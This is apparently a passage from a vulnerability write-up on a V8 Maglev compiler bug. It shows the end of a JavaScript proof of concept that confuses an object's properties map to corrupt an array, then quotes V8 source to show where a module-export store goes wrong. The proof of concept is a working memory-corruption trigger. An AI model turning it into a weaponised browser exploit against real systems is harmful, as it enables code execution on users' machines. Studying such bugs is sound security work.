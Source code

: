 ```js
})();

function confuse_properties_map(arg) {
  store(arg, 0x1);
}

let a = init();
let arr = [];
arr.push(1.1);
let arr2 = [{}];
confuse_properties_map(a);

gc();

// %DebugPrint(a);
// %DebugPrint(arr);

a.p5 = 1024;
a.p7 = 1024;
%DebugPrint(arr);

// %SystemBreak();
```
![image](https://github.com/zckevin/blog/assets/666724/d27db6bb-e34f-4a27-8681-7f689bb1c5cf)

# where bug happens
## source code
```
PropertyAccessInfo AccessorAccessInfoHelper() {
  ...
  return PropertyAccessInfo::ModuleExport(zone, receiver_map,
                                            cell_ref.value());
}


PropertyAccessInfo PropertyAccessInfo::ModuleExport(Zone* zone,
                                                    MapRef receiver_map,
                                                    CellRef cell) {
  return PropertyAccessInfo(zone, kModuleExport, {} /* holder */,
                            cell /* constant */, {} /* api_holder */,
                            {} /* name */, {{receiver_map}, zone});
}


ReduceResult MaglevGraphBuilder::TryBuildStoreField(...) {
  ...
  ValueNode* store_target;
  if (field_index.is_inobject()) {    <--- false
    store_target = receiver;
  } else {
    // The field is in the property array, first load it from there.
    store_target = AddNewNode<LoadTaggedField>({receiver}, JSReceiver::kPropertiesOrHashOffset);
  }
...
  if (field_representation.IsSmi()) {     <------ field_representation is `none` for a `kModuleExport` AccessInfo
    ...
  } else if (value->use_double_register()) {
    ...
  } else {
```